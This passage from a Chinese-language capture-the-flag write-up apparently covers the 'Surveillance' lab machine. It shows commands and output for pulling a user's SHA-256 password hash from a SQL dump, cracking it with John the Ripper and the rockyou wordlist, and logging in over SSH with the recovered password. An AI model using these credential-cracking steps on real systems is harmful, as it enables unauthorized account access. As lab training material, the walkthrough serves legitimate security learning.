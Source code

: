 再来，整理后暴破：
```bash
└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql | awk -F ',' '{OFS=":"; print $10,$13}' | tr -d "'"
Matthew:39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql | awk -F ',' '{OFS=":"; print $10,$13}' | tr -d "'" > cred-Matthew.txt

└─$ hash-identifier    
 (...)
 HASH: 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

Possible Hashs:
[+] SHA-256
[+] Haval-256
 (...)


└─$ john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt cred-Matthew.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
No password hashes left to crack (see FAQ)

└─$ cat hash.txt                                 
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

└─$ john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starcraft122490  (?)     
1g 0:00:00:00 DONE (2023-12-12 23:28) 2.631g/s 9485Kp/s 9485Kc/s 9485KC/s stefon23..sozardme
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

这里挺奇怪，试了好几次。只能单放hash而不能加上用户名。  
最终得到凭据：`Matthew:starcraft122490`

尝试SSH连接，注意要用小写：
```bash
└─$ ssh matthew@10.10.11.245
matthew@10.10.11.245's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)
 (...)
Last login: Wed Dec 13 04:31:19 2023 from 10.10.14.158
matthew@surveillance:~$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
```
